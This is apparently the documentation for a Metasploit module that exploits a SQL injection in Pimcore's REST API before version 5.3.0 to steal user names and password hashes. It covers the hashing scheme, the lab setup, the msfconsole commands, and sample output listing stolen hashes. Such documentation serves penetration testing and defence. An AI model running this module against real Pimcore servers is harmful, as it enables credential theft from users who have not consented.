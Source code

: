 ## Description

  This module exploits a SQL injection vulnerability in Pimcore's REST web service for versions below 5.3.0. By using a UNION query on the `object inquire` service, this module can steal the usernames and password hashes of all users of Pimcore.

  Pimcore begins to create password hashes by concatenating a user's username, the name of the application, and the user's password in the format `USERNAME:pimcore:PASSWORD`.
  The resulting string is then used to generate an MD5 hash, and then that MD5 hash is used to create the final hash, which is generated using PHP's built-in `password_hash` function.

## Vulnerable Application

  Installing composer and running `php composer.phar create-project pimcore/pimcore=5.2.3 ./myproject --no-dev` will install Pimcore and most of its dependencies.
  The installation process will give notifications on missing PHP extensions that are required. Additionally, a web server and database must be set up.

  Source for Pimcore v5.2.3 can also be found [here](https://www.exploit-db.com/apps/7c759b5b7f2896a7d5461582e149bcaa-pimcore-5.2.3.tar.gz)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/gather/pimcore_creds_sqli`
  4. Do: `set RHOSTS [IP]`
  5. Do: `set TARGETURI [URI]`
  6. Do: `set APIKEY [KEY]`
  7. Do: `run`
  8. You should get a list of Pimcore user credentials

## Options

  **APIKEY**

  Valid API key for accessing Pimcore's REST API in order to perform the injection.

## Scenarios

### Tested on Ubuntu 18.04.1 Running Pimcore v5.2.3

  ```
  msf5 > use auxiliary/gather/pimcore_creds_sqli
  msf5 auxiliary(gather/pimcore_creds_sqli) > set rhosts 192.168.37.246
  rhosts => 192.168.37.246
  msf5 auxiliary(gather/pimcore_creds_sqli) > set apikey 77369eee2b728e0efbb2c296549aea09b91d3751c26a3c27ce0b1dbb6bfaf11b
  apikey => 77369eee2b728e0efbb2c296549aea09b91d3751c26a3c27ce0b1dbb6bfaf11b
  msf5 auxiliary(gather/pimcore_creds_sqli) > run

  [+] Credentials obtained:
  [+] admin : $2y$10$sBaD3EOAm/i1F3Mm/fwseeq3nyoacdlUt4NkVLZUgJ4FTReJSKIbe
  [+] secondUser : $2y$10$DYaFjrYnajTmVhhXSmsh8O5rLrQuPt8Q9Dto3vaQ4747K5kSvWEPy
  [+] blah : $2y$10$sJWr.puqXnF5T3DI3L1oqu3aIJRjUtHs9.2pgHEkevEdGrGvO1cBC
  [*] Auxiliary module execution completed
  ```
